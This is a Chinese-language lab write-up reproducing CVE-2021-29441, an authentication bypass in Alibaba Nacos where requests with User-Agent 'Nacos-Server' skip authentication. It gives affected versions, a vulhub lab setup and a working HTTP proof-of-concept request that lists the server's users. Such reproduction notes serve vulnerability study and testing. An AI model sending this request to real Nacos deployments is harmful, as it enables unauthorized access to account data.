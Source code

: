 # Nacos-认证绕过漏洞（CVE-2021-29441）

### 0x00 前言

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

**影响版本：**

```
<= Nacos 2.0.0-ALPHA.1
< Nacos 1.4.1
```

### 0x01 环境搭建

这里使用vulhub漏洞靶场

![image-20230327230007424](01.Nacos-认证绕过漏洞（CVE-2021-29441）.assets/image-20230327230007424.png)



### 0x02 漏洞复现

1、访问网页

```
http://192.168.12.130:8848/nacos/v1/auth/users?pageNo=1&pageSize=2
```

2、poc

```
GET /nacos/v1/auth/users?pageNo=1&pageSize=2 HTTP/1.1
Host: your_ip:port
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
```

